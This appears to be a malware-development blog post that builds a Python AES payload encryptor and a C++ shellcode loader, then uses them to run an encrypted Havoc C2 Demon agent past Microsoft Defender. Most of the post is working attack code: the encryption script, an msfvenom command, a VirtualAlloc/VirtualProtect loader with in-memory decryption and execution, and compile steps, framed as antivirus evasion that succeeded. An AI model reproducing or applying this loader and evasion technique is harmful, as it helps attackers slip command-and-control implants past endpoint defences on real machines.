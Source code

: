 ```yaml
---
layout: post
title: Creating a payload encryption tool and testing it on the Havoc agent
date: 2023-11-29
categories: [Malware Development, Evasion]
tags: [evasion]     
---
```


Payload encryption is a must against modern security solutions, as popular code such as meterpreter is sure to get caught by signature-based detection or static file analysis. Although encryption won't get us past heuristic analysis or ML behavioral analysis, it's a step forward toward being stealthy. While this is great, the drawback to payload encryption is that it increases file entropy. Entropy is a measure of randomness within a dataset, and files with an entropy that passes a certain threshold have a good chance of being marked as malicious. There are techniques to decrease entropy, which I will discuss in a later post. 

In this post, I will create a tool that implements a popular encryption algorithm for malware development. The tool will output the encrypted payload and generate a random key and initialization vector. Afterward, I will test out an encrypted payload against Defender. 

Let's create an argument parser using the `argparse` library

```python
# Create the argument parser
parser = argparse.ArgumentParser(
                        prog='PayloadEncryptor',
                        description='Encrypts payloads...duh.',
                        epilog='Check out my blog!')

# Adding arguments to the parser
parser.add_argument('-i', dest = 'initialpayload', help = 'the name of the file that contains your payload', type=argparse.FileType('rb'))
parser.add_argument('-o', dest = 'encryptedpayload', help = 'the file where to write the encrypted payload')

# Run the parser and place the extracted data into an args.<argumentname> object
args = parser.parse_args()
# Read the payload from a file and store it in a variable
with args.initialpayload as f:
   payload = f.read()
```

Then I will create a function that takes the payload, encrypts it, and writes the output to the file the user specified. For this, I will be using the `PyCryptodome` library, as it makes my life easier.

```python
def EncryptAES(input, output):
	# Generate a random key and print it
    key = get_random_bytes(16)
    print(key)
	# Define the cipher as AES-EAX
    cipher = AES.new(key, AES.MODE_EAX)
	# Generate a nonce
    nonce = cipher.nonce
	# Encrypt the input
    ciphertext, tag = cipher.encrypt_and_digest(input)
	# Open or create a file with the name we specified, and write the encrypted payload
    file_out = open(f"{output}", "wb")
    [ file_out.write(x) for x in (cipher.nonce, tag, ciphertext) ]
```

Now let's put it to the test! But first, we will need a payload. 

```shell
msfvenom -p windows/x64/messagebox TEXT="Task failed succesfully" TITLE="Error!" -f raw > payload.bin
```

Let's take a look at it 

![Message box payload](/assets/image3.png)

Now if we run our code, it should look different

```python
python3 Encrypt.py -i payload.bin -o encryptedpayload.bin
```

![Encrypted message box payload](/assets/image4.PNG)

Perfect! So we know that it works, but our payload isn't that interesting. Let's use the Havoc C2 framework to create a payload for the Demon agent (don't forget to start a listener first). This command should create a .bin file.

![Generating the demon agent](/assets/image5.png)

We run our encryption script again, and we have our final payload. But now we need a loader. Let's try this going off this [template](https://github.com/TheD1rkMtr/Shellcode-Hide/blob/main/1%20-%20Simple%20Loader/SimpleLoader/SimpleLoader.cpp). After tweaking the code a bit, this is the final product:

```cpp
#include <windows.h>
#include <stdio.h>

int main() {

unsigned char payload[] = { 
    <SNIP>
};
  
	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}
	
	RtlMoveMemory(alloc_mem, payload, sizeof(payload));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}

  ((void(*)())alloc_mem)();

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	getchar();

	return 0;
}
```

We will also need to decrypt our payload. For this I will use the [tiny-aes-c](https://github.com/kokke/tiny-AES-c) library.

```cpp
    #include <aes.c>

    <SNIP>

    AES_ctx ctx = {0};
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, payload, sizeof(payload));
```

Here is when I ran into a problem. The python script I created encrpted the payload using AES-EAX, and tiny-aes-c uses AES_CBC. Let's adapt our script

```python
def EncryptAES(input, output):
    # Generate a key
    key = get_random_bytes(16)
    # Defining a cipher
    cipher = AES.new(key, AES.MODE_CBC)
    # Encrypting the payload, also adding some padding in case it's size is not a multiple of 16 bytes
    ct_bytes = cipher.encrypt(pad(input, AES.block_size))
    # Print the IV
    print("unsigned char iv[] = {")
    for byte in cipher.iv:
        print(f"0x{byte:02x},", end = "")
    print("};")
    # Print the Key
    print("unsigned char key[] = {")
    for byte in cipher.iv:
        print(f"0x{byte:02x},", end = "")
    print("};")
    # Write into the specified file
    file_out = open(f"{output}", "wb")
    [ file_out.write(ct_bytes) ]
```

And after using THIS script to encrypt our payload, this is the final product

```cpp
unsigned char key[] = {
  0x7b, 0x61, 0x4f, 0xef, 0xbf, 0xbd, 0x78, 0x42, 0xef, 0xbf, 0xbd, 0x5b,
  0x31, 0x6d, 0x25, 0x0a
};

unsigned char iv[] = {
  0xef, 0xbf, 0xbd, 0x45, 0xc9, 0xbd, 0x34, 0xef, 0xbf, 0xbd, 0x54, 0x6a,
  0xef, 0xbf, 0xbd, 0x55, 0xef, 0xbf, 0xbd, 0x5b, 0x31, 0x6d, 0x0a
};

int main() {

unsigned char payload[] = {
  <SNIP>
};

  	LPVOID alloc_mem = VirtualAlloc(NULL, sizeof(payload)), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	if (!alloc_mem) {
		printf("Failed to Allocate memory (%u)\n", GetLastError());
		return -1;
	}
	
    AES_ctx ctx = {0};
	AES_init_ctx_iv(&ctx, key, iv);
	AES_CBC_decrypt_buffer(&ctx, payload, sizeof(payload));

	RtlMoveMemory(alloc_mem, payload, sizeof(payload));

	DWORD oldProtect;

	if (!VirtualProtect(alloc_mem, sizeof(payload), PAGE_EXECUTE_READ, &oldProtect)) {
		printf("Failed to change memory protection (%u)\n", GetLastError());
		return -2;
	}

  ((void(*)())alloc_mem)();

	printf("\n\nalloc_mem : %p\n", alloc_mem);
	getchar();

	return 0;
}
```

Now that we have our code, let's compile it!

```shell
x86_64-w64-mingw32-cc -I /Path/to/tiny-AES-c-1.0.0 -o Demon.exe Loader.cpp
```

After transferring it to the Windows machine, I ran it and...the agent crashed. Great. After debugging it a bit, I have come to the conclusion that I also need to use tiny-aes-c for encryption. 

```cpp
unsigned char payload[] {
<SNIP>
};

unsigned char key[] {
};

unsigned char iv[] {
};

AES_ctx ctx = {0};
AES_ctx_init_iv(&ctx, key, iv);
AES_CBC_encrypt_buffer(&ctx, payload, sizeof(payload));

for(int i=0,i<sizeof(payload),i++) {
  print("0x%x, ", payload[i]);
}
```

Piping the output of this into a file, and then copying it to our loader. It should work. Compiling it again and running it on our Windows host...

![Defender got pwned](/assets/image7.png)
